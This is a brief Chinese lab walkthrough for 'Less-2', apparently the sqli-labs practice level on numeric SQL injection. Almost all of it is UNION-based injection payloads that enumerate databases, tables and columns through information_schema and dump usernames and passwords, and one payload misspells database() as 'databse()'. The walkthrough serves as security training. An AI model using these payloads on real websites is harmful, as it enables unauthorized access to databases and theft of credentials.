

# Less-2—整型（数字型）注入

　　**判断注入类型**

　　 **?id=1 and 1=2 报错 说明为数字型注入**

　　**判断注入点**

　　 **?id=1 and 1=1--+ 正常**

　　 **?id=1' and 1=2--+ 没有报错但不显示信息**

　　**后续和第一关一致**

　　‍

　　**查数据库列数**

　　 **?id=1 order by 3--+ 正常
?id=1 order by 4--+ 报错**

　　‍

　　**查显错点**

　　 **?id=-1 union select 1,2,3--+**

　　‍

　　**查数据库名**

　　 **?id=-1 union select 1,databse(),3 --+
?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata --+**

　　‍

　　**查表名**

　　 **?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+**

　　‍

　　**查表中所有字段**

　　 **?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'  and table_schema='security'--**

　　‍

　　**爆出数据**

　　 **?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users --+**

